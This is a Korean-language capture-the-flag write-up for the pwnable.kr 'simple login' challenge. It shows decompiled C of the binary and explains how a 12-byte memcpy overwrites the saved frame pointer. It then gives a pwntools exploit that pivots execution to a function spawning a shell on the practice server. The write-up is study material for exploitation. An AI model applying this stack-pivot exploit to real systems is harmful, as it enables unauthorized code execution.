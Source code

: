 ```yaml
---
title: "[pwnable.kr]simple login"
date: 2020-1-17
tags: [pwnable.kr]
categories: [pwnable.kr]
---
```


입력 받은 값을 `Base64Decode` 함수에서 디코드해서 md5한 값이 `f87cd601aa7fedca99018a8be88eda34` 이 되야하는데 계속 바뀐다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+18h] [ebp-28h]
  char input; // [esp+1Eh] [ebp-22h]
  unsigned int v6; // [esp+3Ch] [ebp-4h]

  memset(&input, 0, 30u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ");
  _isoc99_scanf("%30s", &input);
  memset(&::input, 0, 12u);
  v4 = 0;
  v6 = Base64Decode(&input, &v4);
  if ( v6 > 12 )
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&::input, v4, v6);
    if ( auth(v6) == 1 )
      correct();
  }
  return 0;
}
```

`auth` 함수에서 memcpy할때 a1만큼하는데 여기서 12가 들어가면 sfp를 덮을 수 있다.

```c
_BOOL4 __cdecl auth(int a1)
{
  char v2; // [esp+14h] [ebp-14h]
  char *md5_value; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h]

  memcpy(&v4, &input, a1);
  md5_value = calc_md5(&v2, 12);
  printf("hash : %s\n", md5_value);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", md5_value) == 0;
}
```

`correct` 함수는 쉘을 띄워준다.

```c
void __noreturn correct()
{
  if ( input == 0xDEADBEEF )
  {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
  exit(0);
}
```

Fake EBP를 이용한 문제다. sfp를 전역변수인 input으로 덮고 esp + 4위치인 corret함수로 리턴되게하면 된다.

> exploit.py

```python
from pwn import *

e = ELF('./login')
#p = process('./login')
p = remote('pwnable.kr',9003)
_input = 0x0811EB40
_correct = 0x0804940C

payload = p32(0xDEADBEEF) # dummy
payload += p32(_correct) # eip
payload += p32(_input) # sfp -> bss
# leave-ret

p.sendafter(':',payload.encode('base64'))

p.interactive()
```

